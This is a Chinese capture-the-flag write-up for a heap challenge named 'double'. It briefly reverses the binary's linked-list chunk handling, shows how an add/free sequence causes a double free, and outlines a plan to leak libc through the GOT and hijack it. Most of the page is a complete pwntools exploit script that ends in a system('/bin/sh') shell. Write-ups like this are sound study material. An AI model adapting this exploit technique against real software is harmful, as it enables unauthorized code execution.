 # double
这题放的比bms晚几秒...导致我直接上手bms错过了竞争这题的前几血的机会...
这题主要是逆向逆清楚了就知道了...虽然我当时心里急没咋逆清楚就上手了...就是调着调着就出来了

## Analysis
* 存在show但是每次输入被截断
* 没开`pie`,链表结构储存chunk
* 内容相同的话不再创建新的内容chunk而是直接指向#这里我没逆清楚我只知道 空状况下`add(A) add(A) add(B) free(0) free(2) free(1) `造成`double free `不过也够用了
* `edit`里用的是`memncpy`不会被0截断,`add`里面用的是`strncpy`会被截断...这个卡了我好久..一直以为都是`strncpy`

## 思路
* `double free `控制`bss` 盖掉`head_ptr`指向`bss` 上区域(因为我们不知道其他`address`)
* `edit` 上去一个 `fake_chunk` 其中的`ptr`指向`got`用来泄露 
* `show to leak`
* `edit to hijacking`
## exp
```python
from pwn import *
#context.log_level='debug'
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,data="A"):
	cmd(1)
	p.sendlineafter("data:\n",data.ljust(size,'\x00'))
def show(idx):
	cmd(2)
	p.sendlineafter("dex: ",str(idx))
def edit(idx,c,size):
	cmd(3)
	p.sendlineafter("dex: ",str(idx))
	p.sendline(c.ljust(size,'\x00'))
def free(idx):
	cmd(4)
	p.sendlineafter("dex: ",str(idx))
p=process('./pwn')
#p=remote("39.106.224.151",40002)
add(0x67,'A')#0
add(0x67,"A")#1
add(0x67,'B')#2
add(0x17,'K')#3
free(0)
free(2)
free(1)
free(3)
add(0x67,p64(0x4040bd))
add(0x67,"B")
add(0x67,"C")
add(0x17,"A"*8+p64(0x000000000404018))
add(0x67,"AAA")
edit(0,"AAA"+p64(0x4040e0)*2+p64(0x6700000000)+p64(0x000000000404018),0x67)
show(0)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7a914f0-0x7ffff7a0d000)
libc.address=base
#
add(0x17,"/bin/sh")
edit(0,p64(libc.symbols['system']),8)
log.warning(hex(base))
free(1)
p.interactive()#
```